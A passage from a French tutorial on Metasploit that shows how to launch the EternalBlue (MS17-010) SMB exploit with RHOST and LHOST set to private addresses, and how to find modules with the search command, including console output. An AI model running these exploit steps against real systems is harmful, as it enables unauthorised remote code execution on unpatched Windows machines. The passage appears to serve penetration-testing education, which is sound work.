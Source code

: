 ```bash
msf exploit(windows/smb/ms17_010_eternalblue) > set RHOST 10.1.1.2
msf exploit(windows/smb/ms17_010_eternalblue) > set LHOST 10.10.66.6
msf exploit(ms17_010_eternalblue) > exploit
```

- Pour trouver un exploit spécifique dans Metasploit, on peut utiliser la commande ```search```. Voici un exemple avec Eternalblue

```bash
┌──(root㉿Kali)-[/home/kali]
└─# msfconsole

                          ########                  #
                      #################            #
                   ######################         #
                  #########################      #
                ############################
               ##############################
               ###############################
              ###############################
              ##############################
                              #    ########   #
                 ##        ###        ####   ##
                                      ###   ###
                                    ####   ###
               ####          ##########   ####
               #######################   ####
                 ####################   ####
                  ##################  ####
                    ############      ##
                       ########        ###
                      #########        #####
                    ############      ######
                   ########      #########
                     #####       ########
                       ###       #########
                      ######    ############
                     #######################
                     #   #   ###  #   #   ##
                     ########################
                      ##     ##   ##     ##
                            https://metasploit.com


       =[ metasploit v6.3.27-dev                          ]
+ -- --=[ 2335 exploits - 1220 auxiliary - 413 post       ]
+ -- --=[ 1385 payloads - 46 encoders - 11 nops           ]
+ -- --=[ 9 evasion                                       ]

Metasploit tip: Use the edit command to open the
currently active module in your editor
Metasploit Documentation: https://docs.metasploit.com/

msf6 > search Eternalblue

Matching Modules
================

   #  Name                                      Disclosure Date  Rank     Check  Description
   -  ----                                      ---------------  ----     -----  -----------
   0  exploit/windows/smb/ms17_010_eternalblue  2017-03-14       average  Yes    MS17-010 EternalBlue SMB Remote Windows Kernel Pool Corruption
   1  exploit/windows/smb/ms17_010_psexec       2017-03-14       normal   Yes    MS17-010 EternalRomance/EternalSynergy/EternalChampion SMB Remote Windows Code Execution
```